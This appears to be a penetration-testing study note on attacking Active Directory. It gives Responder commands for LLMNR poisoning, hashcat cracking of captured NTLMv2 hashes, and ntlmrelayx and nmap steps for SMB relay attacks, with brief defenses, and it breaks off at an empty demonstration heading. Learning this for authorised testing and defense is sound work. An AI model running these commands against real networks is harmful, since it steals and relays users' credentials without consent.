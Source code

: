 # ACTIVE DIRECTORY

Directory services developed by Microsoft to manage windows domain networks.
Stores information related objects, such as Computers, Users, Printers etc. (Acts like a phonebook for Windows).
Authenticates using kerberos - Non-windows devices such as Linux machines, firewalls etc. can also authenticate to Active Directory via RADIUS or LDAP.


**ATTACKING ACTIVE DIRECTORY**
First we need to find our way into the network through abusing features of windows.

**1---LLMNR POISONING**

Link Local Multicast & Name Resolution- used to Identify hosts when DNS fails to do so.
Previously known as NBT_NS.
Key flaw is that the services utilize a user's username and NTLMV2 hash when appropriately responded to.
We will use a tool called `Responder`

`python Responder.py -I tun0 -rdw -V`

Run the tool and wait for connection :

STEPS:
- Run Responder
- An Event occurs
- Get some hashes
- Crack the hashes 

**Capturing NTLMV2 Hashes with Responder**

 `responder -I eth0 -rdwv`
 
 **Password cracking with Hashcats**
 
 copy and paste the hashes collected:
 
 `gedit hashes.txt`
 
 paste the hashes and save
 
 `hashcat -m 5600 hashes.txt rockyou.txt --force`
 
 **LLMNR Poisoning defenses**
 
 Best defense is to disable LLMNR & NBT-NS.
 If you have to use or cannot disable LLMNR/NBT-NS;
 
 - Enable Network Access Control
 - Use Strong User Password

**2---SMB RELAY ATTACKS**

SMB signing is a packet level protocol.
Instead of cracking hashes gathered with Responder, we can instead relay these hashes to specific machines and potentially gain access.

Requirements:

- SMB signing must be disabled on the target.
- Relayed user credentials must be admin on machine.

Run Responder:

`gedit Responder.conf` - Turn off SMB & HTTP

`python Responder.py -I tun0 -rdw -v`

Set up your relay:

`python ntlmrelayx.py -tf targets.txt -smb2support`

NTLM relay x takes the relay, it passes it to a target file specified.

**Discovery Hosts with SMB Signing Disabled**

Using nmap to do a quick check:

`nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24`

**SMB Relay Attack Demonstration**
